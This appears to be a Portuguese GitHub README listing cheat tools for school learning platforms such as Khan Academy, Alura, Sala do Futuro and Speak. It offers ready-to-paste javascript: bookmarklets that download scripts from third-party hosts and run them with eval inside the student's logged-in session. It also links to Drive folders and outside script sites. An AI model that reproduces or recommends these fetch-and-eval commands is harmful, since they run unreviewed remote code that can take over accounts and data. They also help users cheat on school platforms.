 #  *Arquivo escolar.*

 
<div align="center">
  
  <img src="https://github.com/ilytobias/Khan-Destroyer/assets/165577429/fcd7fa24-a62c-46c8-bc02-78463bd4c64a" width="250" height="250"></img>


## KHAM ACADEMY

```js
javascript:fetch("https://raw.githubusercontent.com/Niximkk/Khanware/refs/heads/main/Khanware.js").then(t=>t.text()).then(eval);
```

<img src="https://i.ibb.co/23Rn72BZ/download.jpg" width="250" height="250">   

## ALURA 

```
https://drive.google.com/drive/folders/1ZcJbiLgMVuRW4m3IzcX5XF_o4kQCnhwJ?usp=drive_link
```

[dolw](https://chromewebstore.google.com/detail/tampermonkey-legacy/lcmhijbkigalmkeommnijlpobloojgfn?pli=1)


<img src="https://i.ibb.co/wWgm3Z7/leiasp-1.png" width="350" height="200">

### LEIA-SP

```

```


<img src="https://i.ibb.co/JwmGGbRW/download.png" width="250" height="250">   

### SALA DO FUTURO


[script](https://doritus.mmrcoss.tech/)


<img src="https://i.ibb.co/Dg6mKvxQ/0015-I000006-Le2h-QAC.png" width="200" height="200">

## SPEAK

```
javascript:fetch(`https://speakify.cupiditys.lol/api/bookmark.js?${Math.random()}`).then(r => r.text()).then(r => eval(r))
```

[script2](https://drive.google.com/drive/folders/1EgH2G_ZW0wKpph63ynLla1ymNrna_k3o?usp=drive_link)

